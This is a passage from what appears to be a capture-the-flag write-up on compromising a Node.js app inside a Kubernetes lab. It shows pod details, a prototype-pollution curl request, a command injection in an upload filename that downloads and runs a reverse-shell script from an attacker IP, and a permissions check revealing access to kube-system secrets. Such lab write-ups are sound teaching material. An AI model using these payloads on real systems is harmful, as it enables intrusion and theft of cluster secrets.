 ```
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from default-token-rmcd6 (ro)
Conditions:
  Type              Status
  Initialized       True 
  Ready             True 
  ContainersReady   True 
  PodScheduled      True 
Volumes:
  default-token-rmcd6:
    Type:        Secret (a volume populated by a Secret)
    SecretName:  default-token-rmcd6
    Optional:    false
QoS Class:       BestEffort
Node-Selectors:  <none>
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```
It looke like there is a devlopement environment running with the same app we just exploited on `172.17.0.4:3000`. 

We simply export our payloads from postman to curl and reproduce our attack:

```
curl --location --request PUT 'http://172.17.0.4:3000/' \
--header 'Content-Type: application/json' \
--data-raw '{"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__":{"canUpload":true}}}'
```

Just change the port in our `rev.sh` and continue:

```
curl --location --request POST 'http://172.17.0.6:3000/upload' \
--header 'Content-Type: application/json' \
--data-raw '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"& wget http://10.10.14.53:1234/rev.sh & chmod +x rev.sh & /bin/bash rev.sh"}'
```

Let's check our priliges in our new `pod` after copying kubectl on it aswell:

```
./kube auth can-i --list -n kube-system
Resources                                       Non-Resource URLs                     Resource Names   Verbs
selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
secrets                                         []                                    []               [get list]
```
